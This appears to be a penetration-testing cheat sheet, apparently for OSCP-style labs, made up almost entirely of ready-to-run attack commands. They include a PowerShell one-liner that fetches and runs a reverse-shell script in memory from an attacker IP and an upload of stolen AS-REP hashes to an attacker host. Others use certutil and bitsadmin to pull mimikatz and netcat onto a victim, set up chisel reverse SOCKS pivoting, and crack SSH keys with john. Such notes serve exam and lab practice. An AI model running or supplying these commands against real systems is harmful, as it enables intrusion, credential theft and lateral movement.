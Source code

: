 ### Powershell to grab remote file and run it in memory
`powershell "IEX (New-Object Net.WebClient).DownloadString('http://10.10.14.12/Invoke-PowerShellTcp.ps1');"`

### Powershell Upload to kali - Make sure apache is running and the upload.php is there! 
`powershell (New-Object System.Net.WebClient).UploadFile('http://192.168.119.143/upload.php', 'asrep_hashes.txt')`

### Certutil transfer **HIGHLY EFFECTIVE**
`certutil.exe -urlcache -split -f http://192.168.119.143:8000/mimikatz.exe`

### If certutil fails try bitsadmin
`bitsadmin /transfer job /download /priority high http://192.168.245.139/nc.exe c:\\pwn\\nc.exe'`

--------------------------------------------
# Tunneling 
### SSH Port forwarding guide
[SSH Tunneling](https://refabr1k.gitbook.io/oscp/info-gathering/ssh/ssh-tunneling)

[Pivoting and Tunneling](https://medium.com/@kuwaitison/pivoting-and-tunneling-for-oscp-and-beyond-cheat-sheet-3435d1d6022)

[Tunneling with Chisel](https://0xdf.gitlab.io/2020/08/10/tunneling-with-chisel-and-ssf-update.html)

### set up ssh port forwarding with compromised user - good if you cannot use chisel 
`sudo ssh -L 80:192.168.120.209:80 <compromised_user>@192.168.120.209` 

### Setting up chisel w/ socks proxy
*On the compromised host that you want to pivot through, proxychains socks5 needs configured* 
`./chisel client 10.10.15.4:8000 R:socks` 
*On Kali* 
`chisel server --socks5 -p 8000 -reverse`

### Proxychains nmap example
`sudo proxychains -q nmap --top-ports=1000 -Pn -sT -v -oA nmap_172.16.1.102 172.16.1.102` 

------------------------------------------------
# SSH 
### Convert SSH private key to hash for brute force
`ssh2john.py in-file-privkey > out-file.hash` 
`john out-file.hash --wordlist=/usr/share/wordlists/rockyou.txt`

### Copy ssh private key for auth
`openssl rsa -in in-file-privkey -out outfile` 
